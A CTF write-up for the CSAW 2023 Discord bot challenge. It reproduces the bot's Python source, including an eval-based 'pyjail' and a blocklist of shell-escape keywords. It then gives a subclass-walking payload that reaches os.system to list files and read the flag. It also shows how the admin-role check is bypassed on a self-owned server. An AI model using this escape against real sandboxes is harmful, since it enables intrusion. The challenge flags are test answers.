 # Discord Admin Bot
> Join discord and get the flag.

> discord.gg/csaw23 discord.gg/csaw23 discord.gg/csaw23 discord.gg/csaw23 discord.gg/csaw23 discord.gg/csaw23 discord.gg/csaw23 discord.gg/csaw23 discord.gg/csaw23 discord.gg/csaw23

## About the Challenge
There is a discord bot called `Kalkulatoor`


[Image extracted text: Kalkulatoor
Kalkulatoor#0146
BOT
ABOUT ME
Tam a calculator
427569898]


And we got some the source code too. Here is the bot source code

```py
#############################################
# Author: Krishnan Navadia
# This is main working file for this chal
#############################################

import discord
from discord.ext import commands, tasks
import subprocess

from settings import ADMIN_ROLE
import os
from dotenv import load_dotenv
from time import time

load_dotenv()

TOKEN = os.getenv("TOKEN")

intents = discord.Intents.default()
intents.messages = True
bot = commands.Bot(command_prefix="!", intents=intents)

bot.remove_command('help')

SHELL_ESCAPE_CHARS = [":", "curl", "bash", "bin", "sh", "exec", "eval,", "|", "import", "chr", "subprocess", "pty", "popen", "read", "get_data", "echo", "builtins", "getattr"]

COOLDOWN = []

def excape_chars(strings_array, text):
    return any(string in text for string in strings_array)

def pyjail(text):
    if excape_chars(SHELL_ESCAPE_CHARS, text):
        return "No shells are allowed"

    text = f"print(eval(\"{text}\"))"
    proc = subprocess.Popen(['python3', '-c', text], stdout=subprocess.PIPE, preexec_fn=os.setsid)
    output = ""
    try:
        out, err = proc.communicate(timeout=1)
        output = out.decode().replace("\r", "")
        print(output)
        print('terminating process now')
        proc.terminate()
    except Exception as e:
        proc.kill()
        print(e)

    if output:
        return f"```{output}```"


@bot.event
async def on_ready():
    print(f'{bot.user} successfully logged in!')

@bot.command(name="flag", pass_context=True)
async def flag(ctx):
    admin_flag = any(role.name == ADMIN_ROLE for role in ctx.message.author.roles)

    if admin_flag:
        cmds = "Here are some functionalities of the bot\n\n`!add <number1> + <number2>`\n`!sub <number1> - <number2>`"
        await ctx.send(cmds)
    else:
        message = "Only 'admin' can see the flag.😇"
        await ctx.send(message)

@bot.command(name="add", pass_context=True)
async def add(ctx, *args):
    admin_flag = any(role.name == ADMIN_ROLE for role in ctx.message.author.roles)
    if admin_flag:
        arg = " ".join(list(args))
        user_id = ctx.message.author.id
        ans = pyjail(arg)
        if ans: await ctx.send(ans)
    else:
        await ctx.send("no flag for you, you are cheating.😔")

@bot.command(name="sub", pass_context=True)
async def sub(ctx, *args):
    admin_flag = any(role.name == ADMIN_ROLE for role in ctx.message.author.roles)
    if admin_flag:
        arg = " ".join(list(args))
        ans = pyjail(arg)
        if ans: await ctx.send(ans)
    else:
        await ctx.send("no flag for you, you are cheating.😔")


@bot.command(name="help", pass_context=True)
async def help(ctx, *args):
    await ctx.send("Try getting `!flag` buddy... Try getting flag.😉")


@bot.event
async def on_command_error(ctx, error):
    if isinstance(error, commands.CommandNotFound):
        await ctx.send("Try getting `!flag` buddy... Try getting flag.😉")
    else:
        print(f'Error: {error}')


bot.run(TOKEN)
```

This is a Pyjail challenge, but we need to have an admin role to execute python commands

## How to Solve?
First, we need to invite the bot on our discord server by using accessing this URL

https://discord.com/oauth2/authorize?client_id=1151613133027295232&permissions=8&scope=bot

Hmmm, how do you know if the bot id was `1151613133027295232`? You can use developer mode and then right click the bot profile and press `Copy User ID` button


[Image extracted text: Block
Kick Kalkulatoor
Ban Kalkulatoor
Roles
Copy User ID]


To use the bot, we also need to create a custom discord role called `admin` and assign it to our account. And then we can use command `!add` or `!sub` to execute some python command

```py
@bot.command(name="add", pass_context=True)
async def add(ctx, *args):
    admin_flag = any(role.name == ADMIN_ROLE for role in ctx.message.author.roles)
    if admin_flag:
        arg = " ".join(list(args))
        user_id = ctx.message.author.id
        ans = pyjail(arg)
        if ans: await ctx.send(ans)
    else:
        await ctx.send("no flag for you, you are cheating.😔")

@bot.command(name="sub", pass_context=True)
async def sub(ctx, *args):
    admin_flag = any(role.name == ADMIN_ROLE for role in ctx.message.author.roles)
    if admin_flag:
        arg = " ".join(list(args))
        ans = pyjail(arg)
        if ans: await ctx.send(ans)
    else:
        await ctx.send("no flag for you, you are cheating.😔")
```

Because there is a list of blacklisted characters, we can still bypass it by running this command

```
!add print(().__class__.__base__.__subclasses__()[133].__init__.__globals__['system']('ls'))
```


[Image extracted text: daffainfo 09/16/2023 10.48 AM
ladd print(() class base subclasses([133] init globals['system I(ls' ))
Kalkulatoor
BOT
09/16/2023 10.48 AM
bin
bot.py
dev
txt
interpret
lib
lib32
lib64
libx32
requirements.txt
settings.py
usr
None
flag]


And then read the flag by running `cat flag.txt` command


[Image extracted text: daffainfo
09/16/2023 10.46 AM
ladd print(() class base subclasses([133].init globals['systemI(cat
txt'))
Kalkulatoor
BOT
09/16/2023 10.46 AM
csawctf{you_4r3_th3_fl4g_to_my_pyj4il_chall3ng:}
None
flag:]


```
csawctf{Y0u_4r3_th3_fl4g_t0_my_pyj4il_ch4ll3ng3}
```